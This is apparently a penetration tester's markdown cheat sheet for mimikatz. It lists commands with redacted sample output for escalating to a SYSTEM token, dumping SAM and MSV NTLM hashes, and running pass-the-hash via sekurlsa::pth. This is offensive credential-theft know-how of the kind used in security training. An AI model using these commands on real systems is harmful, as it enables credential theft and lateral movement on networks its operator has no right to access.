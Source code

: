 # mimikatz

### Resources

1. The Hacker Tools

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### Basic commands

1. View privilege configurations (?):

`privilege::debug`

* Required to perform actions such as `lsadump::sam` later on

```
mimikatz # privilege::debug
Privilege '20' OK
```

2. To impersonate a token:

`token::elevate`

* particularly, a token from `SYSTEM`

{% embed url="https://docs.velociraptor.app/artifact_references/pages/windows.detection.impersonation/" %}

```
mimikatza # token::elevate

Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

660     xxxx         NT AUTHORITY\SYSTEM     xxxx       (04g,21p)       Primary
 -> Impersonated !
 * Process Token : xxxx     XXXX     xxxx   (12g,24p)  Primary
 * Thread Token  : {0;000003e7} 1 D 1309519     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

```

3. Dump the local Security Account Manager (SAM) NT hashes:

`lsadump::sam`

```
mimikatz # lsadump::sam
Domain : xxxx
SysKey : xxxx
Local SID : xxxx

SAMKey : xxxx

RID  : xxxx (500)
User : Administrator
  Hash NTLM: xxxx
  
...
```

4. Dumps NT hash by targeting the [MSV1\_0 Authentication Package](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

`lsadump::msv`

```
mimikatz # lsadump::msv

Authentication Id : 0 ; xxxx (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : xxxx
Domain            : xxxx
Logon Server      : xxxx
...

        msv :
         [00000003] Primary
         * Username : xxxx
         * Domain   : xxxx
         * NTLM     : xxxx

...
```

5. Revert to original token on mimikatz startup:

`token::revert`&#x20;

```
mimikatz # token::revert
```

6. Performs Pass-the-Hash, Pass-the-Key, Overpass-the-hash:

`sekurlsa::pth`

{% code overflow="wrap" %}
```
mimikatz # /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"<command_to_run>"
```
{% endcode %}

`/user` : username to impersonate

`/domain` : fully qualified domain name

`/ntlm` : NT hash

`/run` : command to run

* according to The Hacker Tools (refer link in "Resources" above), it defaults to `cmd.exe`&#x20;

